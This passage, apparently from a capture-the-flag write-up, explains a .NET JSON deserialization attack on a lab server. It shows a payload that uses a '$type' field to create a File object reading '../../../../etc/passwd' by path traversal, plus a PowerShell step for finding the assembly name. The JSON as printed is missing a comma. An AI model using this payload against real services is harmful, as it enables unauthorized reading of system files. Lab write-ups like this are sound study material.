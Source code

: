 
This tells Dotnet to handle this as a different type of object when it
deserializes it from JSON into an object. I’m going to submit an object as
`RemoveOrder`, as that blindly sets whatever I send as the value, and thus I
can get it to create (and call the setter for) another object. I’ll have a
`File` object created, with the `ReadFile` set to the contents of
`/etc/passwd`. That will look something like:

    
    
    {
    	"RemoveOrder": {
    		"$type": "bagel_server.File, bagel"
            "ReadFile": "../../../../etc/passwd"
    	}
    }
    

The Namespace is what I noted above, and the ClassName is the class with the
object. The AssemblyName I’ll get from PowerShell:

    
    
    PS > [System.Reflection.AssemblyName]::GetAssemblyName('Z:\bagel.dll')
    
    Version        Name
    -------        ----
    1.0.0.0        bagel
    

This diagram shows how this payload is processed by the server:
